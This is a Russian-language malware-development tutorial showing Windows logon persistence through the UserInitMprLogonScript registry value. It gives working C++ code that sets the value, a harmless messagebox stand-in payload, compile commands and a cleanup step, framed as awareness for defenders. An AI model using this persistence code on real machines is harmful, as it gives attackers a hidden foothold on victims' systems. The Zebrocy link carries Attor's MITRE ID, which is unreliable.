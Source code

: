 \newpage
\subsection{86. разработка вредоносного ПО: закрепление (persistence) - часть 20. UserInitMprLogonScript (скрипт входа в систему). Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/82/2022-12-11_18-11.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через значение `UserInitMprLogonScript`.     

### UserInitMprLogonScript

Windows позволяет выполнять скрипты входа в систему при каждом входе пользователя или группы пользователей. Добавление пути к скрипту в реестр `HKCU\Environment\UserInitMprLogonScript` позволяет это сделать. Таким образом, для установления закрепления злоумышленники могут использовать сценарии входа в систему Windows, которые выполняются автоматически при инициализации сеанса.      

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это приложение `meow-meow` messagebox (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем скрипт для закрепления (`pers.cpp`):      


```cpp
/*
pers.cpp
windows persistence via
setting UserInitMprLogonScript value
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // env
  const char* env = "Environment";

  // evil app
  const char* exe = "Z:\\2022-12-09-malware-pers-20\\hack.exe";

  // environment
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)env, 0 , KEY_WRITE, 
  &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_CURRENT_USER\Environment" /v "UserInitMprLogonScript" /t 
    // REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UserInitMprLogonScript", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как видите, логика проста. Просто установим значение ключа `UserInitMprLogonScript` в `HKCU\Environment` на полный путь к нашей "вредоносной программе" - `Z:\\2022-12-09-malware-pers-20\hack.exe`.

### demo

Давайте посмотрим, как все работает на практике. Прежде всего, проверяем реестр:      

```powershell
reg query "HKCU\Environment" /s
```

![pers](./images/82/2022-12-11_17-57.png){width="80%"}    


Затем компилируем наше "вредоносное" ПО на машине атакующего (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/82/2022-12-11_17-54.png){width="80%"}    

И для проверки корректности пробуем запустить `hack.exe` на машине жертвы (`Windows 10 x64` в моем случае):    

```powershell
.\hack.exe
```

![pers](./images/82/2022-12-11_18-00.png){width="80%"}    

Как можно видеть, наше "вредоносное" ПО работает идеально.    

На следующем шаге компилируем скрипт закрепления на машине атакующего:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/82/2022-12-11_17-55.png){width="80%"}    

Запускаем его на машине жертвы:    

```powershell
.\pers.exe
```

Затем снова проверяем значения ключей реестра:        

```powershell
reg query "HKCU\Environment" /s
```

![pers](./images/82/2022-12-11_18-06.png){width="80%"}    

Как видно, ключ (`UserInitMprLogonScript`) установлен.    

Теперь выходим из системы и входим снова:     

![pers](./images/82/2022-12-11_18-07.png){width="80%"}    

![pers](./images/82/2022-12-11_18-07_1.png){width="80%"}    

И через несколько миллисекунд появляется наш `meow-meow` messagebox:     

![pers](./images/82/2022-12-11_18-08.png){width="80%"}    

Затем, если открыть Process Hacker и проверить свойства `hack.exe`:     

![pers](./images/82/2022-12-11_18-09.png){width="80%"}    

![pers](./images/82/2022-12-11_18-10.png){width="80%"}    

мы видим, что родительский процесс - это "несуществующий" (non-existent) процесс.    

Если вы хотя бы немного изучали внутреннюю структуру Windows, то знаете, что существуют процессы, у которых родительский процесс отображается как "несуществующий". Например, Windows Explorer - `explorer.exe`. Родительским процессом является `userinit.exe` или `winlogon.exe`, но может быть и другой `.exe`, использующий `explorer.exe`. Родительский процесс отображается как `<Non-existent Process>`, так как `userinit.exe` завершает свою работу. Другой пример - Windows Logon - `winlogon.exe`, у которого родительский процесс "не существует", так как `smss.exe` завершает выполнение.    

Если проверить свойства `hack.exe` через [Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer), можно увидеть значение "Autostart Location":    

![pers](./images/82/2022-12-11_20-05.png){width="80%"}    

Все сработало идеально! =^..^=    

После завершения эксперимента удаляем ключ:    

```powershell
Remove-ItemProperty -Path "HKCU:\Environment" -Name "UserInitMprLogonScript"
```

![pers](./images/82/2022-12-19_18-00.png){width="80%"}    

Этот метод закрепления использовался группой [APT28](https://attack.mitre.org/groups/G0007), а также вредоносными программами [Attor](https://attack.mitre.org/software/S0438) и [Zebrocy](https://attack.mitre.org/software/S0438).    

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)        
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007)      
[Attor](https://attack.mitre.org/software/S0438)        
[Zebrocy (Trojan)](https://attack.mitre.org/software/S0438)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-12-09-malware-pers-20)     
